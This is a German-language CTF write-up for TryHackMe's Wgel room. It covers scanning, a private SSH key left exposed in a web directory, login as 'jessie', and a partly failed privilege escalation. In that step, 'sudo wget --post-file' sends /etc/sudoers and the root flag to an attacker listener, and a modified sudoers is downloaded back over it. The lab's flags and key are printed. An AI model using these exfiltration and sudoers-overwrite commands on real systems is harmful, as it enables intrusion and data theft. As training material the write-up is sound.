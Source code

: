 ```yaml
---
description: https://tryhackme.com/room/wgelctf
---
```


# ♻️ WgelCTF

## Gegeben

* IP

## Vorgehen

### 1. NMAP-Scan:

{% code overflow="wrap" %}
```
Host is up (0.079s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94961b66801b7648682d14b59a01aaaa (RSA)
|   256 18f710cc5f40f6cf92f86916e248f438 (ECDSA)
|_  256 b90b972e459bf32a4b11c7831033e0ce (ED25519)

80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{% endcode %}

### 2. DIRB-Scan

{% code overflow="wrap" fullWidth="false" %}
```
+ http://10.10.197.22/index.html (CODE:200|SIZE:11374)                                                                                                                                                                                         + http://10.10.197.22/server-status (CODE:403|SIZE:277)                                                                                                                                                                                        

==> DIRECTORY: http://10.10.197.22/sitemap/                                                                                                                                                                                                                                                                                                                                                                                                                                                   

---- Entering directory: http://10.10.197.22/sitemap/ ----                                                                                                                                                                                     ==> DIRECTORY: http://10.10.197.22/sitemap/.ssh/                                                                                                                                                                                               ==> DIRECTORY: http://10.10.197.22/sitemap/css/                                                                                                                                                                                                ==> DIRECTORY: http://10.10.197.22/sitemap/fonts/                                                                                                                                                                                              ==> DIRECTORY: http://10.10.197.22/sitemap/images/                                                                                                                                                                                             + http://10.10.197.22/sitemap/index.html (CODE:200|SIZE:21080)                                                                                                                                                                                 ==> DIRECTORY: http://10.10.197.22/sitemap/js/                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     
```
{% endcode %}

-> Subdirectory /sitemap/.ssh/ enthielt die Datei id\_rsa (ssh private key)

{% code overflow="wrap" %}
```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA2mujeBv3MEQFCel8yvjgDz066+8Gz0W72HJ5tvG8bj7Lz380
m+JYAquy30lSp5jH/bhcvYLsK+T9zEdzHmjKDtZN2cYgwHw0dDadSXWFf9W2gc3x
W69vjkHLJs+lQi0bEJvqpCZ1rFFSpV0OjVYRxQ4KfAawBsCG6lA7GO7vLZPRiKsP
y4lg2StXQYuZ0cUvx8UkhpgxWy/OO9ceMNondU61kyHafKobJP7Py5QnH7cP/psr
+J5M/fVBoKPcPXa71mA/ZUioimChBPV/i/0za0FzVuJZdnSPtS7LzPjYFqxnm/BH
Wo/Lmln4FLzLb1T31pOoTtTKuUQWxHf7cN8v6QIDAQABAoIBAFZDKpV2HgL+6iqG
/1U+Q2dhXFLv3PWhadXLKEzbXfsAbAfwCjwCgZXUb9mFoNI2Ic4PsPjbqyCO2LmE
AnAhHKQNeUOn3ymGJEU9iJMJigb5xZGwX0FBoUJCs9QJMBBZthWyLlJUKic7GvPa
M7QYKP51VCi1j3GrOd1ygFSRkP6jZpOpM33dG1/ubom7OWDZPDS9AjAOkYuJBobG
SUM+uxh7JJn8uM9J4NvQPkC10RIXFYECwNW+iHsB0CWlcF7CAZAbWLsJgd6TcGTv
2KBA6YcfGXN0b49CFOBMLBY/dcWpHu+d0KcruHTeTnM7aLdrexpiMJ3XHVQ4QRP2
p3xz9QECgYEA+VXndZU98FT+armRv8iwuCOAmN8p7tD1W9S2evJEA5uTCsDzmsDj
7pUO8zziTXgeDENrcz1uo0e3bL13MiZeFe9HQNMpVOX+vEaCZd6ZNFbJ4R889D7I
dcXDvkNRbw42ZWx8TawzwXFVhn8Rs9fMwPlbdVh9f9h7papfGN2FoeECgYEA4EIy
GW9eJnl0tzL31TpW2lnJ+KYCRIlucQUnBtQLWdTncUkm+LBS5Z6dGxEcwCrYY1fh
shl66KulTmE3G9nFPKezCwd7jFWmUUK0hX6Sog7VRQZw72cmp7lYb1KRQ9A0Nb97
uhgbVrK/Rm+uACIJ+YD57/ZuwuhnJPirXwdaXwkCgYBMkrxN2TK3f3LPFgST8K+N
LaIN0OOQ622e8TnFkmee8AV9lPp7eWfG2tJHk1gw0IXx4Da8oo466QiFBb74kN3u
QJkSaIdWAnh0G/dqD63fbBP95lkS7cEkokLWSNhWkffUuDeIpy0R6JuKfbXTFKBW
V35mEHIidDqtCyC/gzDKIQKBgDE+d+/b46nBK976oy9AY0gJRW+DTKYuI4FP51T5
hRCRzsyyios7dMiVPtxtsomEHwYZiybnr3SeFGuUr1w/Qq9iB8/ZMckMGbxoUGmr
9Jj/dtd0ZaI8XWGhMokncVyZwI044ftoRcCQ+a2G4oeG8ffG2ZtW2tWT4OpebIsu
eyq5AoGBANCkOaWnitoMTdWZ5d+WNNCqcztoNppuoMaG7L3smUSBz6k8J4p4yDPb
QNF1fedEOvsguMlpNgvcWVXGINgoOOUSJTxCRQFy/onH6X1T5OAAW6/UXc4S7Vsg
jL8g9yBg4vPB8dHC6JeJpFFE06vxQMFzn6vjEab9GhnpMihrSCod
-----END RSA PRIVATE KEY-----
```
{% endcode %}

### 3. SSH-Login

Mit der privaten ssh id\_rsa sollte ein login als user "X" möglich sein?

[https://explainshell.com/explain?cmd=ssh+-i](https://explainshell.com/explain?cmd=ssh+-i) <- ausprobieren ! mit datei unter `~./.ssh/` legen

Ich dachte vielleicht könnte das der rsa-key von root sein.

Nach Betrachtung der Source unter / habe ich den Eintrag "Jessie don't forget to update the website" gefunden. Das deutet auf einen User "jessie" hin.

mit `ssh -i ~/.ssh/id_rsa jessie@$ip` konnte eine Verbindung hergestellt werden.

### 4. lokale Enumeration

User-Flag unter \~/Documents/user\_flag.txt gefunden: `057c67131c3d5e42dd5cd3075b198ff6`

sudo -l liefert&#x20;

{% code overflow="wrap" %}
```
Matching Defaults entries for jessie on CorpOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
{% endcode %}

Durch linpeas.sh wird Angriffsvektor über wget bestätigt

Weitere Dateien mit SUID-Berechtigung durch `find / -perm -u=s -type f 2>/dev/null`

```
/bin/ping6
/bin/ping
/bin/umount
/bin/mount
/bin/su
/bin/fusermount
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/lib/i386-linux-gnu/oxide-qt/chrome-sandbox
/usr/lib/eject/dmcrypt-get-device
/usr/lib/snapd/snap-confine
/usr/lib/xorg/Xorg.wrap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/sbin/pppd
```

### 5. Privilege Escalation \[FAIL]

Root-Shell mit wget(privEsc) über die Datei /etc/sudoers

<pre data-overflow="wrap"><code><strong>#Angreifer
</strong>nc -lvnp 80 > sudoers # lokale sudoers-Datei erstellen (header muss manuell entfernt werden)

#Ziel
sudo wget --post-file=/etc/sudoers &#x3C;ip> &#x3C;port> # post mit datei an ip
</code></pre>



```
# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL

# See sudoers(5) for more information on "#include" directives:

#includedir /etc/sudoers.d
jessie  ALL=(root) NOPASSWD: /usr/bin/wget
```

Hier den Eintrag von jessie auf `NOPASSWD : ALL` ändern



Danach wieder uploaden mit

<pre data-overflow="wrap"><code><strong>#Angreifer
</strong>python3 -m http.server 1234

#Ziel
sudo wget &#x3C;ip>:port/sudoers -O /etc/sudoers # Datei anfordern und lokal überschreiben
</code></pre>



Danach wechsel auf root mit `su root?? funktioniert nicht`

### 6. Root Flag

Flag konnte durch sudo wget --post-file=/root/root\_flag.txt \<ip> extrahiert werden.

`b1b968b37519ad1daa6408188649263d`

Allerdings konnte keine PrivEsc durchgefüjrt werden, da sudoers nicht validiert werden konnte!

Nochmal probieren!
